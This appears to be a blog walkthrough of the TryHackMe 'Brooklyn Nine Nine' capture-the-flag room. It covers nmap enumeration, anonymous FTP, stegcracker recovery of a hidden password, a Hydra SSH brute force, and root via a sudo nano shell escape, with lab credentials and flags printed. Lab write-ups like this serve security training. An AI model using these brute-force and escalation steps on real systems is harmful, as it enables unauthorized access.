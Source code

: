 ```yaml
---
title: "Brooklin nine nine"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="bnn.jpeg" alt="bnn" style="width: 200px;" >}}

## Enumeration

```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.226.203
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt

22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk

80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

```bash
.htaccess               [Status: 403, Size: 276, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 276, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 276, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 718, Words: 94, Lines: 33]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10]

```

Haha a comedy classic. ok ftp first

```bash
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
227 Entering Passive Mode (10,10,70,22,232,201)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (1.1822 MB/s)
```

haha `jake` got a weak password. No surprise here! does it mean we can brute his ssh?

hmm..let's check the website first...wide background...lets check code (always)

```html

<p>This example creates a full page background image. Try to resize the browser window to see how it always will cover the full screen (when scrolled to top), and that it scales nicely on all screen sizes.</p>
<!-- Have you ever heard of steganography? -->
```

{{< post-img src="brooklyn99.jpg" alt="brooklyn99" style="width: 300px;" >}}


steganography is booming now...Do people really use it that much IRL?

```bash
└──╼ $binwalk brooklyn99.jpg

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01


└──╼ $steghide --info brooklyn99.jpg
"brooklyn99.jpg":
  format: jpeg
  capacit�: 3,5 KB
Essayer d'obtenir des informations � propos des donn�es incorpor�es ? (o/n) o
Entrez la passphrase:
steghide: Impossible de d�compresser les donn�es. Donn�es endommag�es.
```
corrupted data? now what? oh yeah wrong passphrase!

stegcracker it is! well I don't like bruteforce alot

```bash
└──╼ $stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which
will blast through the rockyou.txt wordlist within 1.9 second as opposed
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20715 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```

time-consuming for probable results...my computer is a potato...oh look it's done!

in the extracted file we get holt-s password lol

```text
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

Ok now I get it..the author was talkig about two ways of access

I thought we would be jake but we are holt...

I want to try something real quick (not so quick)


```bash
└──╼ $hydra -l jake -P /usr/share/wordlists/rockyou.txt -s 22 -f 10.10.70.22 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-27 01:18:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.70.22:22/
[22][ssh] host: 10.10.70.22   login: jake   password: 987654321
[STATUS] attack finished for 10.10.70.22 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-27 01:18:25
```

Lol I knew it! now we have two possible ways of access:

`jake:987654321`

`holt:fluffydog12@ninenine`

I like jake alot but I feel holt would have more "authority"...holt first!

We can always su to jake if the same password is valid

```bash
holt@brookly_nine_nine:~$ cat user.txt
brooklyn_nine_nine_flag
```

## Privilege Escalation

Even holt needs more privileges? what? is it because he is black?

```bash
holt@brookly_nine_nine:/home/amy$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

nano? easy!

like vi or vim nano can execute commands too

as it runs as root (sudo) just ask for a shell and it shall be a root shell

first open nano with root authority

`sudo nano`

Next do ^R (ctrl+R) for reading mode then ^X (ctrl+X) for commands execution

your command for a shell would be:
```
reset; sh 1>&0 2>&0
```
press enter and you are root

```bash
# id
uid=0(root) gid=0(root) groups=0(root)
```
Now go get that flag!

```bash
# cd /root
# ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: nine_nine_hacked_flag

Enjoy!!
```
I hope you have fun doing this room...I specifically request it! XD
